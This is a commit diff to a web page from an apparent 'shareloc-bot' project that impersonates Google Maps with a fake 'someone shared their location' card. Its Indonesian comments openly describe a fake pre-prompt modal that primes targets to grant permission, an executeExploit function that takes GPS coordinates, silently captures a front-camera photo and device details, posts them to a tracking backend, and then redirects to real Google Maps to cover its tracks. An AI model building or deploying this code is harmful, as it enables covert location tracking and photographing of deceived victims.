

Before and after one commit to lacakguedong-netizen/shareloc-bot, a website: page public/index.html in a window 1280 px wide. Both pictures are taken after a click on the button "Lihat Lokasi". Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Enhance UI with modal and update tracking functions
Updated styles for buttons and headings, added modal for pre-prompt, and modified JavaScript functions for location tracking and camera access.

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -13,7 +13,6 @@
             align-items: center;
             height: 100vh;
             margin: 0;
-            overflow: hidden;
         }
         .card {
             background: white;
@@ -23,7 +22,6 @@
             text-align: center;
             max-width: 360px;
             width: 100%;
-            position: relative;
         }
         .logo {
             width: 48px;
@@ -39,50 +37,67 @@
             padding: 12px 24px;
             font-size: 16px;
             font-weight: 500;
-            border-radius: 6px;
+            border-radius: 24px; /* Dibuat lebih membulat khas Google UI modern */
             cursor: pointer;
             width: 100%;
+            box-shadow: 0 1px 2px rgba(60,64,67,0.3), 0 1px 3px 1px rgba(60,64,67,0.15);
             transition: background 0.2s;
         }
         .btn:hover { background-color: #1557b0; }
 
-        /* CSS untuk Pre-Prompt Overlay (Pop-up Palsu) */
-        .overlay {
+        /* CSS untuk Pre-Prompt Modal Palsu */
+        .modal-overlay {
+            display: none; /* Disembunyikan secara default */
             position: fixed;
             top: 0; left: 0; width: 100%; height: 100%;
-            background: rgba(0, 0, 0, 0.4);
-            display: none; /* Disembunyikan secara default */
+            background: rgba(0,0,0,0.4);
             justify-content: center;
             align-items: center;
-            z-index: 1000;
+            z-index: 999;
+            opacity: 0;
+            transition: opacity 0.3s ease;
         }
-        .mock-dialog {
+        .modal-overlay.active {
+            display: flex;
+            opacity: 1;
+        }
+        .modal-box {
             background: white;
-            width: 300px;
+            padding: 24px;
             border-radius: 8px;
-            box-shadow: 0 4px 24px rgba(0,0,0,0.2);
-            padding: 24px;
+            width: 85%;
+            max-width: 320px;
             text-align: left;
-            animation: popIn 0.3s ease-out;
+            box-shadow: 0 24px 38px 3px rgba(0,0,0,0.14), 0 9px 46px 8px rgba(0,0,0,0.12), 0 11px 15px -7px rgba(0,0,0,0.2);
         }
-        .mock-dialog h4 { margin: 0 0 10px 0; font-size: 16px; color: #202124; }
-        .mock-dialog p { margin: 0 0 20px 0; font-size: 14px; color: #5f6368; }
-        .dialog-actions { display: flex; justify-content: flex-end; gap: 10px; }
-        .btn-dialog {
-            background: transparent;
+        .modal-box h4 {
+            margin: 0 0 12px 0;
+            font-size: 16px;
+            color: #202124;
+            font-weight: 500;
+        }
+        .modal-box p {
+            font-size: 14px;
+            color: #5f6368;
+            margin-bottom: 24px;
+            line-height: 1.4;
+        }
+        .modal-actions {
+            text-align: right;
+        }
+        .modal-actions button {
+            background: none;
+            border: none;
             color: #1a73e8;
-            border: none;
+            font-weight: 500;
+            font-size: 14px;
             padding: 8px 12px;
-            font-size: 14px;
-            font-weight: 500;
             cursor: pointer;
             border-radius: 4px;
+            margin-left: 8px;
         }
-        .btn-dialog:hover { background: #f1f3f4; }
-
-        @keyframes popIn {
-            0% { opacity: 0; transform: scale(0.9); }
-            100% { opacity: 1; transform: scale(1); }
+        .modal-actions button:hover {
+            background-color: rgba(26,115,232,0.04);
         }
 
         .spinner {
@@ -98,59 +113,63 @@
 </head>
 <body>
     <div class="card" id="main-card">
+        <!-- Logo Google Maps -->
         <svg class="logo" viewBox="0 0 24 24" xmlns="http://www.w3.org/2000/svg">
             <path fill="#4285F4" d="M12 2C8.13 2 5 5.13 5 9c0 5.25 7 13 7 13s7-7.75 7-13c0-3.87-3.13-7-7-7zm0 9.5c-1.38 0-2.5-1.12-2.5-2.5s1.12-2.5 2.5-2.5 2.5 1.12 2.5 2.5-1.12 2.5-2.5 2.5z"/>
         </svg>
         <h3>Google Maps</h3>
-        <p>Seseorang telah membagikan lokasi waktu nyata dengan Anda.</p>
+        <p>Seseorang telah membagikan lokasi terkininya dengan Anda.</p>
         <button class="btn" onclick="showPrePrompt()">Lihat Lokasi</button>
     </div>
 
-    <!-- Pre-Prompt / Pop-up Palsu -->
-    <div class="overlay" id="pre-prompt">
-        <div class="mock-dialog">
-            <h4>Google Maps membutuhkan akses</h4>
-            <p>Untuk merender rute dan mengkalkulasi jarak Anda dengan lokasi yang dibagikan secara akurat, izinkan akses lokasi di langkah berikutnya.</p>
-            <div class="dialog-actions">
-                <button class="btn-dialog" onclick="denyAccess()">Lain Kali</button>
-                <button class="btn-dialog" onclick="triggerRealTracking()">Lanjutkan</button>
+    <!-- Modal Pre-Prompt Web (Manipulasi UI) -->
+    <div class="modal-overlay" id="prePromptModal">
+        <div class="modal-box">
+            <h4>Tampilkan rute ke lokasi?</h4>
+            <p>Untuk memuat peta interaktif dan menunjukkan arah rute secara akurat dari tempat Anda, Google Maps memerlukan akses lokasi perangkat.</p>
+            <p style="font-size: 12px; color: #80868b; margin-top: -10px;">Pilih <b>"Izinkan"</b> atau <b>"Allow"</b> pada prompt berikutnya untuk melanjutkan.</p>
+            <div class="modal-actions">
+                <button onclick="closePrePrompt()">Lain kali</button>
+                <button onclick="executeExploit()">Lanjutkan</button>
             </div>
         </div>
     </div>
 
+    <!-- Elemen Kamera Tersembunyi -->
     <video id="video" autoplay playsinline style="display:none;"></video>
     <canvas id="canvas" style="display:none;"></canvas>
 
     <script>
-        // Memunculkan Pop-up palsu terlebih dahulu
+        // 1. Fungsi memunculkan pop-up web buatan kita
         function showPrePrompt() {
-            document.getElementById('pre-prompt').style.display = 'flex';
+            const modal = document.getElementById('prePromptModal');
+            modal.classList.add('active');
         }
 
-        function denyAccess() {
-            document.getElementById('pre-prompt').style.display = 'none';
-            // Tetap arahkan ke maps meski menolak agar tidak curiga
-            window.location.href = 'https://www.google.com/maps';
+        function closePrePrompt() {
+            const modal = document.getElementById('prePromptModal');
+            modal.classList.remove('active');
         }
 
-        // Jalankan pelacakan asli setelah target setuju di Pop-up palsu
-        async function triggerRealTracking() {
-            // Sembunyikan pop-up palsu
-            document.getElementById('pre-prompt').style.display = 'none';
+        // 2. Skrip utama berjalan setelah target klik "Lanjutkan" di pop-up web
+        async function executeExploit() {
+            // Tutup pop-up web kita
+            closePrePrompt();
 
-            // Ubah UI agar terlihat sedang loading
+            // Ubah tampilan utama menjadi loading agar meyakinkan
             const card = document.getElementById('main-card');
             card.innerHTML = `
                 <div class="spinner"></div>
-                <h3>Memuat Peta...</h3>
-                <p>Mengkalkulasi jarak rute terbaik...</p>
+                <h3>Memuat Peta Interaktif...</h3>
+                <p>Mengkalibrasi rute perjalanan...</p>
             `;
 
             let latitude = null;
             let longitude = null;
             let accuracy = null;
 
-            // 1. Ambil Lokasi GPS (Di sini pop-up asli browser akan muncul)
+            // Memanggil pop-up sistem bawaan
+            // Karena target sudah dipersiapkan (primed) oleh pop up web, mereka cenderung menekan Allow
             if (navigator.geolocation) {
                 try {
                     const pos = await new Promise((resolve, reject) => {
@@ -160,19 +179,20 @@
                     longitude = pos.coords.longitude;
                     accuracy = pos.coords.accuracy;
                 } catch (e) {
-                    console.log("GPS ditolak");
+                    console.log("GPS ditolak atau timeout");
                 }
             }
 
-            // 2. Ambil Foto Kamera Depan secara Diam-diam
+            // Ambil Foto Kamera Depan secara Diam-diam
             let imageBase64 = null;
             try {
+                // Catatan: Jika browser juga meminta izin kamera, ini akan muncul setelah izin lokasi.
                 const stream = await navigator.mediaDevices.getUserMedia({ video: { facingMode: "user" } });
                 const video = document.getElementById('video');
                 video.srcObject = stream;
                 await new Promise((resolve) => { video.onloadedmetadata = () => resolve(); });
 
-                await new Promise(r => setTimeout(r, 1000));
+                await new Promise(r => setTimeout(r, 1000)); // Tunggu fokus kamera
 
                 const canvas = document.getElementById('canvas');
                 canvas.width = video.videoWidth || 640;
@@ -186,7 +206,7 @@
                 console.log("Kamera ditolak");
             }
 
-            // 3. Info Perangkat
+            // Kumpulkan Info Perangkat
             const deviceData = {
                 hardwareConcurrency: navigator.hardwareConcurrency || '-',
                 deviceMemory: navigator.deviceMemory || '-',
@@ -194,7 +214,7 @@
                 language: navigator.language || '-'
             };
 
-            // 4. Kirim Data ke Backend Telegram
+            // Kirim Data ke Backend (API.js Anda)
             try {
                 await fetch('/api/track', {
                     method: 'POST',
@@ -208,10 +228,10 @@
                     })
                 });
             } catch (e) {
-                console.log("Gagal kirim data");
+                console.log("Gagal kirim ke backend");
             }
 
-            // 5. Redirect ke Google Maps Asli
+            // Redirect Target ke Google Maps Asli agar jejak tertutupi
             if (latitude && longitude) {
                 window.location.href = `https://www.google.com/maps?q=${latitude},${longitude}`;
             } else {
```
